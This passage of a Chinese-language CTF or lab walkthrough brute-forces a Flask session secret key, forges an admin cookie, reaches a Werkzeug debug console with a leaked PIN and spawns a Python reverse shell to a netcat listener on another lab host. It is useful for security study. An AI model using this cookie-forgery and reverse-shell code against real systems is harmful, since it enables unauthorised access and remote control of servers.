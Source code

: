 ```python
                        data = zlib.decompress(data)

                    return data
                else:
                    app = MockApp(secret_key)

                    si = SecureCookieSessionInterface()
                    s = si.get_signing_serializer(app)

                    return s.loads(session_cookie_value)
            except Exception as e:
                return "[Decoding error] {}".format(e)
                raise e



# 下面的代码用于爆破 cookie 得到 key

content = "{\"power\":\"guest\",\"user\":\"test\"}"

cookie = "eyJwb3dlciI6Imd1ZXN0IiwidXNlciI6InRlc3QifQ.ZTeojg.afpjfgsgpwulaVEE6liXb7Um4P8"

# 生成所有可能的两个字节的组合，以字符串形式
for combination in itertools.product(range(256), repeat=2):
    key = ''.join(f'{byte:02x}' for byte in combination)
    result = FSCM.decode(cookie, "This-random-secretKey-you-can't-get" + key)
    if "test" in str(result):
        print("This-random-secretKey-you-can't-get" + key)
        print(result)

# 下面的代码用于生成 cookie
key = "This-random-secretKey-you-can't-get9777"
content = "{\"power\":\"admin\",\"user\":\"admin\"}"
result = FSCM.encode(key, content)
print(result)
```

刷新一下，用 burpsuite 抓包，用生成的 cookie 替换原来 cookie ，发现有新的帖子提示
```
今天测试留言板的时候发现我的调试模式给出的pin码一直是119-692-758不变，真是奇怪呢
不过这个泄露了貌似很危险，别人就可以进我的console执行任意python代码了
```

得到提示在地址栏输入 http://192.168.179.128:8000/console ，进入 console，输入 pin 码

#### 反弹shell

kali 进行监听
```shell
nc -lvvp 2223 
```
在console输入
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.179.129",2223));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
